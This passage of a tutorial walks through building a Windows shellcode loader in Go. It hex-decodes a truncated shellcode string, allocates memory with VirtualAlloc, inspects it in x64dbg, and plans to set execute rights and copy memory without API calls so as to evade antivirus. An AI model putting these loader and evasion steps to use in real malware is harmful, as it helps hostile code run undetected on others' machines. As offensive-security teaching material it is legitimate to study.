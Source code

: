 ```go
package main  
  
import (  
	"encoding/hex"  
	"golang.org/x/sys/windows"  
	"log"  
)  
  
  
func main() {  
	shellcode, _ := hex.DecodeString("505152535657556A605A6863616C6354594883...")

	shellcodeExec, err := windows.VirtualAlloc(  
		uintptr(0), //[in, optional] LPVOID lpAddress,  
		uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
		windows.MEM_COMMIT|windows.MEM_RESERVE, //[in] DWORD flAllocationType,  
		windows.PAGE_READWRITE, //[in] DWORD flProtect  
		)
		  
	if err != nil {  
		log.Fatal("Error while VirtualAlloc:", err)  
	}

	fmt.Printf("Address: %x", shellcodeExec)  
	fmt.Scanln()
}
```
So, in the first argument, we pass the memory address where we'd like to allocate our memory. Since we don't care, and the argument is optional, we pass it 0. Next, the size to be allocated, i.e. the size of our shellcode. The next argument is the type of memory allocation and finally the rights to this memory area. Eventually, we'll make it executable, but for reasons of antivirus detection, we'll do that later.

To see what's going on, I've added a print of the memory address where we're going to allocate the memory and a `fmt.Scan.ln()` which will allow us to stop the program to see what's happening with the debugger. 

Run the program and the memory address of the allocated zone will be displayed.
```
Address: 1fcd76c0000
```
Using `x64dbg`, we can attach ourselves to the process, go without a memory section, and look for this address.
![](/img1.png)
We can see that our memory zone is in Read Write mode and if we click on it, we can see that it contains nothing yet.
![](/img2.png)

### Copy shellcode
We could use [RtlCopyMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory) to do this, but we're going to use a method without an API call instead. This function, taken from an [example](https://github.com/timwhitez/Doge-Gabh/blob/main/example/shellcodecalc/calc.go) by Tim White, is an implementation of the memcpy function in Golang. It takes as arguments the destination address and the byte array to be placed there.
